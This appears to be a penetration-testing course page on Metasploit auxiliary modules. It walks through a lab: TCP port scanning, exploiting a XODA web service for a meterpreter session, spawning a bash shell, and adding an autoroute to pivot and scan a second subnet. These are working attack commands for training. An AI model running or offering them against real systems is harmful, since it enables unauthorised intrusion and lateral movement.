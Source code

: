 # iii - Enumeration

### **Auxiliary Modules**

* Auxiliary modules are used to perform functionality like scanning, discovery and fuzzing.
* We can use auxiliary modules to perform both TCP & UDP port scanning as well as enumerating information from services like FTP, SSH, HTTP, etc.
* Auxiliary modules can be used during the information gathering phase of a penetration test as well as during the post exploitation phase.
* We can also use auxiliary modules to discover hosts and perform port scanning on a different network subnet after we have obtained initial access on a target system.

### **Lab Infrastructure**

* Our objective is to utilize auxiliary modules to discover open ports on our first target?
* The next step will involve exploiting the service running on the target in order to obtain a foothold.
* We will then utilize our foothold to access other systems on a different network subnet (pivoting).
* We will then utilize auxiliary modules to scan of open ports on the second target.

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

## **Practical Demonstration**

```bash
# systemctl start postgresql && msfconsole
db_status # check if postgresql db is running.
workspace -a port_scan # create a new workspace for this session.
search portscan # search for the portscan auxiliary module or you can use the "db_nmap".
use 5 # select the tcp portscan.
set RHOSTS $ip
set PORTS 1-10000 # ports range
run

# in this case we just have a cmd line access, so we cant use a browser to view the web server, but we can use "curl" utility instead.
curl <targetIP> #Download the webpage (if the host is hosting one).

# we discovered the web server is running "xoda"
msf5 > search xoda 
msf5 > use 0
options
set RHOSTS $ip
set TARGETURI / # setting the URI to the root.
exploit # we get a meterpreter session.
sysinfo

# Now we want to scan the 2nd victim pc's ports, so we need to find out the private network ip addr (subnet) that the target victim pc is a part of.
shell # inorder to do that, we spawn a shell session.
/bin/bash -i # get a bash shell.
ifconfig # we saw another ip subnet on interface (eth1).
ctrl + z # exit the shell session, take note of the ip addr.

# back to our meterpreter session.
# we can add a route to the victim2 ip subnet from our meterpreter session.
# run autoroute -s 192.113.124.2 --> we just add a route to the target host PC.
msf5 > run autoroute -s <subnetTargetIP> #Route the traffic to the subnet's target IP address of the first target previously exploited

background # put the running session in background.
sessions # view current sessions.

# search portscan
use 5
set RHOSTS $ip_victim2 # because we already added a route to this network, we are simply performing the scan through "Victim1" PC.
run
# we can now scan other subnets on a network.

search udp-sweep # a module for udp scans.
use 0
set RHOSTS $ip_victim1 or $ip_victim2
```



